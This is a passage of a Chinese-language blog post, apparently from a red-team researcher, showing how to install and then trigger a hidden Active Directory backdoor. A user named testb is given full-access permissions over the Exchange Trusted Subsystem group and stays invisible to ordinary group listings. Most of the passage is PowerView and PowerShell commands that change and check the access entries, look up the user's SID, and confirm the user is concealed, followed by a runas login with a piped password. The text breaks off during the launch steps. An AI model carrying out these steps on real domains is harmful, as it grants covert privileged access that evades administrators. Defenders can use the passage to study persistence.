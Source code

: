 **补充：**

移除后门用户testb对`Exchange Trusted Subsystem`的完全访问权限：

```
$RawObject = Get-DomainObject -SearchBase "LDAP://CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=test,DC=com" -Raw
$TargetObject = $RawObject.GetDirectoryEntry()
$ACE = New-ADObjectAccessControlEntry -InheritanceType All -AccessControlType Allow -PrincipalIdentity testb -Right AccessSystemSecurity,CreateChild,Delete,DeleteChild,DeleteTree,ExtendedRight,GenericAll,GenericExecute,GenericRead,GenericWrite,ListChildren,ListObject,ReadControl,ReadProperty,Self,Synchronize,WriteDacl,WriteOwner,WriteProperty
$TargetObject.PsBase.ObjectSecurity.RemoveAccessRule($ACE)
$TargetObject.PsBase.CommitChanges()
```

#### 5.查看用户testb的sid

```
Get-DomainUser testb
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-9-22/4-1.png)

用户testb的objectsid为`S-1-5-21-1672228480-1396590849-334771951-2105`

#### 6.查看属于新添加用户testb的ACE

```
Get-DomainObjectAcl -SearchBase "LDAP://CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=test,DC=com" | Where-Object {$_.SecurityIdentifier -eq "S-1-5-21-1672228480-1396590849-334771951-2105"}
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-9-22/4-2.png)

至此，后门安装成功

此时查看`Exchange Trusted Subsystem`组的用户：

```
net group "Exchange Trusted Subsystem" /domain
```

无法发现后门用户testb

### 后门启动方法

#### 1.在另一台域内主机上登录用户testb

cmd：

```
echo 123456789 | runas /user:test\testb cmd
```
